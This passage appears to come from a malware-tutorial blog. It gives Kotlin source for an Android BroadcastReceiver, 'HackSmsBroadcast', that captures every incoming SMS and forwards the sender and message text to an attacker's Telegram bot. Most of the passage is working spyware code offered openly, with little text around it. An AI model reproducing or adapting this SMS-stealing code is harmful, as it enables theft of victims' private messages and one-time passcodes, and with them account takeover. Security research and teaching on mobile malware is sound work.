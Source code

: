 ```kotlin
    }
}
```

As you can see, the extracted `SMS` data is sent via Telegram bot using the `HackNetwork` class.

Finally, this `BroadcastReceiver` listens for the incoming `SMS` message, extracts the sender's information and message body, and sends it to the attacker via the Telegram bot:     

```kotlin
package cocomelonc.hacksms

import android.Manifest
import android.annotation.SuppressLint
import android.content.BroadcastReceiver
import android.content.Context
import android.content.Intent
import android.content.pm.PackageManager
import android.telephony.gsm.SmsMessage

class HackSmsBroadcast : BroadcastReceiver() {

    @SuppressLint("NewApi")
    fun isPermissionGranted(context: Context): Boolean {
        val isGranted = context.checkSelfPermission(Manifest.permission.RECEIVE_SMS)
        return isGranted == PackageManager.PERMISSION_GRANTED
    }

    override fun onReceive(context: Context, intent: Intent) {
        if (intent.action == "android.provider.Telephony.SMS_RECEIVED") {
            if (isPermissionGranted(context)) {
                val bundle = intent.extras
                val messages: Array<SmsMessage?>?
                var sender: String?
                if (bundle != null) {
                    val pdus = bundle["pdus"] as Array<*>?
                    messages = arrayOfNulls(pdus!!.size)
                    for (i in messages.indices) {
                        messages[i] = SmsMessage.createFromPdu(pdus[i] as ByteArray)
                        sender = messages[i]!!.originatingAddress
                        val msgBody = messages[i]!!.messageBody
                        // Send the SMS details to the Telegram bot
                        HackNetwork(context).sendTextMessage(
                            "SMS from: $sender\n" +
                            "SMS text: $msgBody"
                        )
                    }
                }
            }
        }
    }
}
```
